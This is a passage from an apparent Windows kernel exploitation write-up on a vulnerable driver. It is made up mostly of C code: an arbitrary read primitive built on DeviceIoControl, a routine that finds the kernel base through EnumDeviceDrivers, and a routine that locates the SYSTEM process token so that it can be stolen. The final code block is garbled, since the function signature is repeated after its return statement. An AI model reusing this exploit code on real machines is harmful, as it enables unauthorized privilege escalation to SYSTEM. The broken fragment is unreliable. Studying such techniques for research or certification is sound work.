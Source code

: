 ```c
        1024,
        &bytesRtn,
        NULL);

    // Free pool memory
    memset(outputBuf, 0, sizeof(outputBuf));
    result = DeviceIoControl(hDevice,
        IOCTL_FREE,
        (LPVOID)NULL,
        (DWORD)0,
        outputBuf,
        1024,
        &bytesRtn,
        NULL);
}

void ArbitraryRead(HANDLE hDevice, QWORD src, QWORD dst)
{
    return ArbitraryWrite(hDevice, src, dst);
}
```

## Kernel Base Address

Locating the kernel base address was fairly straightforward. I used a common technique that I have used before:

```c
QWORD GetKernelBase()
{
    LPVOID drivers[ARRAY_SIZE];
    DWORD cbNeeded;
    EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded);
    
    return (QWORD)drivers[0];
}
```

I used the `EnumDeviceDrivers` Win32 API. This function populates an array with the kernel address of each driver, luckily the first entry is the base address of the kernel. Easy!

## SYSTEM Security Token

After doing a bit of research I wrote the following code:

```c
QWORD GetSystemTokenAddress(QWORD kernelBase, HANDLE hDevice)
{
    // Load kernel in to user land and get the PsInitialSystemProcess address
    HMODULE hKernel = LoadLibraryA(NTOSKRNL_EXE);
    HANDLE psInitialProcess = GetProcAddress(hKernel, "PsInitialSystemProcess");

    QWORD psOffset = (QWORD)psInitialProcess - (QWORD)hKernel;
    QWORD psAddress = (QWORD)kernelBase + (QWORD)psOffset;

    QWORD dereferencedSystemEprocessAddress;
    ArbitraryRead(hDevice, psAddress, (QWORD)&dereferencedSystemEprocessAddress);
    printf("[+] SYSTEM _EPROCESS address: 0x%p\n", dereferencedSystemEprocessAddress);

    QWORD systemTokenAddress = dereferencedSystemEprocessAddress + TOKEN_OFFSET;
    FreeLibrary(hKernel);

    return systemTokenAddress;QWORD GetSystemTokenAddress(QWORD kernelBase, HANDLE hDevice)
{
```

[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"